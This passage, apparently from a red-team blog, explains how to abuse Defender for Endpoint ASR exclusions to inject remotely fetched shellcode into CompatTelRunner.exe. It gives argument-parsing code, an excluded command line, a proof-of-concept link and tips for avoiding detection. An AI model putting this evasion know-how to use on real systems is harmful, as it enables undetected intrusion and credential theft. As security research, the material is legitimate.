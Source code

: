 We have two fields:
- `GetPathExclusion`: Paths of executables exempted from being detected by the respective ASR rule.
- `GetCommandLineExclusions`: Command line arguments if included will be exempted from being detected by the respective ASR rule.

It is possible to leverage both these rules to perform trusted execution to operate in the blind spots of MDE and avoid detection from the "Blocking Credential Stealing from LSASS" ASR rule.

Processes like WerFaultSecure.exe have issues running shellcode while processes like svchost.exe are heavily monitored hence not all excluded processes make ideal candidates for process injection. In this case we target the CompatTelRunner.exe process.
"CompatTelRunner.exe is also known as Windows Compatibility Telemetry. This periodically sends usage and performance data to Microsoft IP addresses so that improvements can be made on user experience and fix potential errors."
This makes it an optimal choice for injection, given its default availability on a wide range of systems, including Windows Home, Server editions, and Core editions.

An example of a permissible command line argument based on the above `GetCommandLineExclusions` is as follows.

```
"C:\Windows\system32\werfault.exe" -p
```

Incorporate both these changes to the source as follows. 
Also make sure to add functionality to parse arguments for the webserver and shellcode required so that these may not be hard-coded at all times.

```
if (argc < 3) {
	wprintf(L"Usage: <1P or H0stname> <sh3llcod3>\n");
	return 1;
}

LPCWSTR url;
LPCWSTR path;

// Convert narrow-character strings to wide-character strings
int urlLength = MultiByteToWideChar(CP_ACP, 0, argv[1], -1, nullptr, 0);
url = new wchar_t[urlLength];
MultiByteToWideChar(CP_ACP, 0, argv[1], -1, const_cast<LPWSTR>(url), urlLength);

int pathLength = MultiByteToWideChar(CP_ACP, 0, argv[2], -1, nullptr, 0);
path = new wchar_t[pathLength];
MultiByteToWideChar(CP_ACP, 0, argv[2], -1, const_cast<LPWSTR>(path), pathLength);
```

### Testing execution against MDE

The final POC with all above changes which has been tested against MDE can be found here: https://github.com/m3rcer/NtNotUnmapSection

Make sure to compile the POC as a Multi-threaded DLL to avoid runtime detections. 

*NOTE: vc_redist.x64.exe might be required on the target.*

